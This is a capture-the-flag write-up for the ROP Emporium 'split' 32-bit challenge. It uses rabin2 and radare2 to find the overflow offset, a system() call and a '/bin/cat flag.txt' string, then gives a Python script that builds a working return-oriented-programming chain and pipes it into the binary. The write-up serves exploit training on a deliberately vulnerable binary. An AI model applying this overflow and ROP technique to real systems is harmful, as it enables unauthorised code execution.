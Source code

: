 # split
The challenge is available [here](https://ropemporium.com/challenge/split.html).

## Black-Box Test
Just like in the previous challenge, let's start by running the `split32` program with simple input, such as `ABCD`.

```
./split32
```
![](./0.png)

Similarly, the return value we want to overwrite is located at the same index as in the previous challenge.

```
perl -e 'print "A"x44 . "\xfe\xbe\xad\xde"' | ./split32
```
![](./1.png)
```
sudo dmesg -k | tail -2
```
![](./2.png)

## Finding important details
As you might have guessed, this challenge also has NX protection enabled.

```
rabin2 -I split32 | grep nx
```
![](./3.png)

Therefore, we will proceed as in the previous challenge and try to find a function that can help us.

```
rabin2 -qs split32 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./4.png)

In fact, the command displays symbols, some of which may be functions, but not only. At this stage, we've found two interesting symbols: `usefulFunction` and `usefulString`. From their names, we can infer what they contain. Let's first check `usefulString`. If it is indeed a string, we can also find it by searching for interesting strings and identify it by its address.

```
rabin2 -z split32
```
![](./5.png)

As can be seen, the string called `usefulString` is located at address `0x0804a030`, and its content is `"/bin/cat flag.txt"`.

If we can send this string to the `system()` function, we win. Keeping that in mind, let's check the `usefulFunction`.

```
r2 split32
```
```
aa
```
```
afl
```
![](./6.png)
```
pdf @ sym.usefulFunction
```
![](./7.png)

It can be seen that the function as a whole won't help us, but it contains a call to the `system()` function, which we do want. Additionally, the helper function pushes the address of the string `"/bin/ls"` onto the stack. We will aim to create a similar state on the stack, where the address of the `usefulString` is at the top of the stack when the call to `system()` is made.

## Solution
Let's summarize in a tables the details we discovered from the research that are important for the ROP Chain.

| String              | Address    |
|---------------------|------------|
| "/bin/cat flag.txt" | 0x0804a030 |


| Code        | Address    |
|-------------|------------|
| call system | 0x0804861a |

* Note: This is not the address of the `system()` function, but rather the command that calls it.

Now we can build the ROP Chain. First, it will consist of 44 garbage characters. Immediately after that, the **address of the command that calls** the `system()` function will appear. As mentioned, the `system()` function expects the call to be made when the address of the string it will operate on is already at the top of the stack. When the program uses the malicious return value, the top of the stack will increase by 4 bytes. Therefore, immediately after the malicious return value, we will add the address of the string `"/bin/cat flag.txt"`.

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer           = b"X"*44
call_system_CODE_ADDR = 0x0804861a
cat_STRING_ADDR       = 0x0804a030

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += little_endian(call_system_CODE_ADDR)
ROP_Chain += little_endian(cat_STRING_ADDR)

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
```
python3 chain_builder.py
```
```
cat rop_chain | ./split
```
![](./8.png)

Haida!